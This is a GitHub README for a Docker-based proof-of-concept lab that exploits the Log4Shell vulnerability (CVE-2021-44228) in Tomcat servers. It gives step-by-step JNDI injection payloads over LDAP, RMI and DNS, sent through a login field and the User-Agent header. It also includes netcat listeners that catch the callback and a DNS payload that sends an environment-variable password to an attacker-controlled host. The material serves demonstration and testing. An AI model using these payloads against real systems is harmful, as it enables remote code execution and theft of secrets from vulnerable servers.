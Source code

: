 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell 

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

A newer Bitnami server is now available on port 8888. It is also is configured for Log4J2 logging and is running Tomcat 9.0.55 and OpenJDK 11.0.13.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: https://www.veracode.com/blog/research/exploiting-jndi-injections-java (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
 

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` 
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
#   POC_ADDR is the address of the cve-poc container
#   LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run Web App Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://10.10.10.31:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://10.10.10.31:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener

### Run a User Agent Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. In a third terminal, run the following. The second IP is the docker host
    1. `curl -A "\${jndi:ldap://172.16.238.11:1389/a}" http://10.10.10.31:8080/log4shell`

### Run a DNS Exfil Demo on Recent Java 11 version

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:dns://10.10.10.31/\${env:POC_PASSWORD}}" http://10.10.10.31:8080/log4shell/`
1. The vulnerable web server will attempt to do a TXT lookup at the given IP. See log4j-dns_exfil.pcap


### Run an RMI RCE Demo on Recent Java 11 version

I am having issues with command line arg for ping target. So you have to compile yourself.

#### Compile 
1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In another terminal, Login to the cve-poc
    1. `docker exec -it log4j-poc_cve-poc_1 /bin/bash`
1. Kill running RMIServerPOC instance
1. Change to rmi-poc directory
    1. `cd /home/user/rmi-poc`
1. Edit RMIServerPOC.java to change 10.10.10.31 to your ping target
1. Recompile
    1. `javac -cp catalina.jar:. RMIServerPOC.java`
1. Run the Server
    1. `javac -cp catalina.jar:. RMIServerPOC 127.0.0.1`

#### Run RMI RCE Demo

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:rmi://172.16.238.11:1097/Object}" http://10.10.10.31:8888/`
1. The vulnerable web server will download a serialized malicious class from the RMI server for a class which already exists in the Tomcat environment.
1. This will ping the IP address defined in the compile section. 


### Detect UA Vulnerability
1. cd scripts
1. `python3 log4j_rce_check.py http://10.10.10.31:8080/log4shell --attacker-host 10.10.10.31:11389 --timeout=2`
1. you will have to kill the process, not sure yet why this hangs
